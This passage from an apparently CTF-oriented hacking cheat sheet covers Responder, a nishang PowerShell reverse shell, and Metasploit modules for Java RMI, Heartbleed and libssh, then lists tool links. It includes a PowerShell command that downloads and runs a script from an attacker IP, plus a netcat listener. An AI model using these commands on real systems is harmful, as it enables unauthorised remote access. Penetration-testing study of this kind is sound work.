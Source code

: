 
* [`Responder.py`](https://github.com/SpiderLabs/Responder)


```
./Responder.py -I tun0
```


Windows Reverse Shells
---------------------------


* [Nishang][nishang]

	If you have access to PowerShell,  you can get a Reverse shell by using [nishang]'s `Invoke-PowerShellTcp.ps1` script inside of the `Shells` directory. Be sure to add the function call example to the bottom of your script, so all you need to to do to host it is (on your Attacker machine):

```
python -m SimpleHTTPServer
```

and then on the victim machine:

```
powershell IEX( New-Object Net.WebClient).DownloadString("http://10.10.14.6:8000/reverse.ps1") )
```

Also, if you want to have nice up and down arrow key usage within your Windows reverse shell, you can use the utility `rlwrap` before your netcat listener command.

```
rlwrap nc -lnvp 9001
```


Known Exploits
------------------

* Java RMI

	Metasploit module: `exploit/multi/misc/java_rmi_server`

	When testing this, responses are _known to come back with an error or exception_. Your code MAY VERY WELL still be executing. Try and run commands that include a callback. And _use Python_ to live off the land and try avoid special characters, like `|` pipes! [ysoserial](https://github.com/frohoff/ysoserial) is a good tool for deserializing Java code to take advantage of this vulnerability.

* Heartbleed

	Metasploit module: `auxiliary/scanner/ssl/openssl_heartbleed`

	Be sure to use `set VERBOSE true` to see the retrieved results. This can often contain a flag or some valuable information.

* libssh - SSH

	`libssh0.8.1` (or others??) is vulnerable to an easy and immediate login. Metasploit module: `auxiliary/scanner/ssh/libssh_auth_bypass`. Be sure to `set spawn_pty true` to actually receive a shell! Then `sessions -i 1` to interact with the shell spawned (or whatever appropriate ID)

* Bruteforcing RDP


[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[tcpflow]: https://github.com/simsong/tcpflow
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[StegSeek]: https://github.com/RickdeJager/stegseek
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2
[photorec]: https://www.cgsecurity.org/wiki/PhotoRec
[smbmap]: https://github.com/ShawnDEvans/smbmap
[oletools]: https://github.com/decalage2/oletools
[impacket]: https://github.com/SecureAuthCorp/impacket
[Responder]: https://github.com/SpiderLabs/Responder
[Responder.py]: https://github.com/SpiderLabs/Responder
[International Code of Signals Maritime]: https://en.wikipedia.org/wiki/International_Code_of_Signals
[maritime flags translator]: https://www.dcode.fr/maritime-signals-code
[static-binaries]: https://github.com/andrew-d/static-binaries